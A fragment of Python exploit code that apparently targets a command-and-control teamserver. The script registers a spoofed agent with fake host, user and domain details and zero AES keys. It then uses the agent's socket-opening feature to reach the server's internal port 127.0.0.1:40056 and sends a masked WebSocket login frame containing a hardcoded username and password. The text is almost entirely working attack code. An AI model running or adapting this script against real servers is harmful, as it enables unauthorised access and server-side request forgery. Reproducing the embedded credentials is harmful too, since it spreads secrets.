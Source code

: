 ```
    frame.extend(masking_key)
    masked_payload = bytearray(payload_bytes[i] ^ masking_key[i % 4] for i in range(payload_length))
    frame.extend(masked_payload)

    return frame



parser = argparse.ArgumentParser()
parser.add_argument("-t", "--target", help="The listener target in URL format", required=True)
parser.add_argument("-i", "--ip", help="The IP to open the socket with", required=True)
parser.add_argument("-p", "--port", help="The port to open the socket with", required=True)
parser.add_argument("-A", "--user-agent", help="The User-Agent for the spoofed agent", default="Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36")
parser.add_argument("-H", "--hostname", help="The hostname for the spoofed agent", default="DESKTOP-7F61JT1")
parser.add_argument("-u", "--username", help="The username for the spoofed agent", default="Administrator")
parser.add_argument("-d", "--domain-name", help="The domain name for the spoofed agent", default="ECORP")
parser.add_argument("-n", "--process-name", help="The process name for the spoofed agent", default="msedge.exe")
parser.add_argument("-ip", "--internal-ip", help="The internal ip for the spoofed agent", default="10.1.33.7")

args = parser.parse_args()


# 0xDEADBEEF
magic = b"\xde\xad\xbe\xef"
teamserver_listener_url = args.target
headers = {
        "User-Agent": args.user_agent
}
agent_id = int_to_bytes(random.randint(100000, 1000000))
AES_Key = b"\x00" * 32
AES_IV = b"\x00" * 16
hostname = bytes(args.hostname, encoding="utf-8")
username = bytes(args.username, encoding="utf-8")
domain_name = bytes(args.domain_name, encoding="utf-8")
internal_ip = bytes(args.internal_ip, encoding="utf-8")
process_name = args.process_name.encode("utf-16le")
process_id = int_to_bytes(random.randint(1000, 5000))

register_agent(hostname, username, domain_name, internal_ip, process_name, process_id)

socket_id = b"\x11\x11\x11\x11"
open_socket(socket_id, args.ip, int(args.port))

HOSTNAME = "127.0.0.1"
PORT = 40056
USER = "sergej"
PASSWORD = "1w4nt2sw1tch2h4rdh4tc2"

write_socket(socket_id, make_request(HOSTNAME, PORT))

payload = {"Body": {"Info": {"Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(), "User": USER}, "SubEvent": 3}, "Head": {"Event": 1, "OneTime": "", "Time": "18:40:17", "User": USER}}
write_socket(socket_id, frame_generator(json.dumps(payload)))

```